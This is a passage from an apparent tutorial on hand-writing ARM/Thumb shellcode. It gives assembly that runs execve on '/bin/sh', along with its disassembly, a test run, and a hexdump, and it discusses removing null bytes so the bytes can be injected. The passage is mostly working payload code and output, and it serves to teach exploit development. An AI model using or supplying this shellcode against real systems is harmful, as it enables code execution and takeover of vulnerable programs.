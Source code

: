     _start:
    add r1, pc, #1
    bx r1

    .code 16
    add r0, pc, #8
    eor r1, r1, r1
    eor r2, r2, r2
    mov r7, #11
    svc #1
    nop

    _string:
    .asciz  "/bin/sh"


    $ as shell.s -o shell.o
    $ objdump -d shell.o

    shell.o:     file format elf32-littlearm


    Disassembly of section .text:

    00000000 <_start>:
       0:   e28f1001        add     r1, pc, #1
       4:   e12fff11        bx      r1
       8:   a002            add     r0, pc, #8      ; (adr r0, 14 <_string>)
       a:   4049            eors    r1, r1
       c:   4052            eors    r2, r2
       e:   270b            movs    r7, #11
      10:   df01            svc     1
      12:   46c0            nop                     ; (mov r8, r8)

    00000014 <_string>:
      14:   6e69622f        .word   0x6e69622f
      18:   0068732f        .word   0x0068732f


    $ ld shell.o -o shell
    $ ./shell
    bash -4.4#

And the program runs again.

### Null Terminating a String

Looking at the shellcode, we have eliminated all of the **0x00**'s except for the final terminating NULL on our "/bin/sh" string.

    $ objcopy -O binary shell.o shell.bin
    $ hexdump -C shell.bin
    00000000  01 10 8f e2 11 ff 2f e1  02 a0 49 40 52 40 0b 27  |....../...I@R@.'|
    00000010  01 df c0 46 2f 62 69 6e  2f 73 68 00              |...F/bin/sh.|
    0000001c

I have been using the gnu assembler **.asciz** directive to declare strings. This automatically appends a null byte to the string data.

